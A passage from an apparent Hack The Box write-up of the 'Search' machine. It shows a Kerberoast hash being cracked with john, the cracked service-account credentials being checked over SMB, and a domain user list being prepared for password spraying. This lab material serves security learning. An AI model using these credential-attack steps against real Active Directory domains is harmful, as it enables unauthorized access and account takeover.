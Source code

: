 ```shell
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:18:49(HKT)]
└> file web_svc.kerberoast                                  
web_svc.kerberoast: ASCII text, with very long lines (2175)
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:18:50(HKT)]
└> cat web_svc.kerberoast 
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$c3cc[...]
```

**Then, we can crack the hash offline via `john`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:19:49(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs web_svc.kerberoast 
[...]
{Redacted} (?)     
[...]
```

Nice! We cracked it!

**We can try to verify that credentials:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:28:14(HKT)]
└> smbclient -L //search.htb/ -U "web_svc"               
Password for [WORKGROUP\web_svc]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	helpdesk        Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	RedirectedFolders$ Disk      
	SYSVOL          Disk      Logon server share 
[...]
```

It worked! Which means we can use `web_svc`'s credentials to authenticate to the domain.

I also tried `psexec` with `web_svc` service account, but no dice again.

Now, let's take a step back.

We've gathered 2 valid domain users' credentials: `hope.sharp` and `web_svc`. We also found all domain users in the domain.

Hmm... Let's perform **password spraying**! Maybe someone reused the above domain users' password.

- Create domain users wordlist:

**In the previous `ldapdomaindump`, it also dumped the JSON version of the data, we can easily extract domain users via `jq`:** 
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:35:05(HKT)]
└> cat domain_users.json | jq -r '.[].attributes.sAMAccountName[]' > domain_users.txt
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:35:28(HKT)]
└> head domain_users.txt 
Tristan.Davies
web_svc
Jordan.Gregory
Claudia.Pugh
Angie.Duffy
Kaylin.Bird
Isabela.Estrada
Haven.Summers
Kayley.Ferguson
```